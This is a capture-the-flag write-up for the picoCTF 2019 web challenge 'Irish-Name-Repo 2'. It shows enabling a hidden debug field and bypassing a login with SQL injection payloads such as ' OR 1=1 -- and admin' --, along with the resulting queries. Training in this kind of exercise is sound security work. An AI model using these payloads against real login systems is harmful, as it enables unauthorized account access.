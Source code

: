 # Irish-Name-Repo 2

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 350
Tags: picoCTF 2019, Web Exploitation
Author: XINGYANG PAN

Description:
There is a website running at https://jupiter.challenges.picoctf.org/problem/64649/. 

Someone has bypassed the login before, and now it's being strengthened. 
Try to see if you can still login! 

http://jupiter.challenges.picoctf.org:64649

Hints:
1. The password is being filtered.
```

## Solution

Browse to the web site and click on the menu-button in the upper left corner.  
Select `Admin Login` and you get redirected to `/login.html`.

Right-click on the background and select `View page source` in the menu (or press `CTRL + U`) to get the HTML-source.
```html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

As in the [previous challenge](Irish-Name-Repo_2.md) there is a hidden field named `debug` with the value of `0`. (`<input type="hidden" name="debug" value="0">`)  

Lets change this value to `1` with DevTools.  
Press `F12` to open DevTools, then navigate to the form in the `Elements` tab.  
Right-click on the value to change it.

If we try to login with username `admin` and password `admin` we get this message.
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

Login failed.
```

Lets first try to login with username `admin` and password `' OR 1=1 --` as before.  
This returns
```
username: admin
password: ' OR 1=1 --
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1 --'

SQLi detected.
```

Now lets try to login with username `admin' --` and password `whatever` instead.  
This returns
```
username: admin' --
password: whatever
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='whatever'
Logged in!

Your flag is: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - SQL injection](https://en.wikipedia.org/wiki/SQL_injection)

